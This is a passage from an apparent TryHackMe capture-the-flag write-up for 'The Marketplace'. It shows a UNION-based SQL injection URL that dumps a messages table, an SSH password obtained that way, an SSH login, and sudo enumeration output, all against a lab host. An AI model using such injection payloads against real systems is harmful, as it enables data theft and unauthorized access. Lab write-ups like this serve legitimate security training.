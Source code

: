 ![/assets/images/TryHackMe/The_marketplace/Untitled%2016.png](/assets/images/TryHackMe/The_marketplace/Untitled%2016.png)

## Data from database

Lets get messages. Since we know the columns

```bash
http://10.10.87.36/admin?user=0 union select 1,group_concat(message_content,0x2b,user_to),3,4 from messages
```

0x2b i.e + acts as a delimeter.

![/assets/images/TryHackMe/The_marketplace/Untitled%2017.png](/assets/images/TryHackMe/The_marketplace/Untitled%2017.png)

So we have SSH password of the user 3. Let's find the user

```bash
http://10.10.87.36/admin?user=3
```

![/assets/images/TryHackMe/The_marketplace/Untitled%2018.png](/assets/images/TryHackMe/The_marketplace/Untitled%2018.png)

User : jake

Password : @b_ENXkGYUCAv3zJ

# SSH

```bash
$ ssh jake@10.10.87.36
```

home directory has the second flag

Lets see sudo permissions

```bash
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```
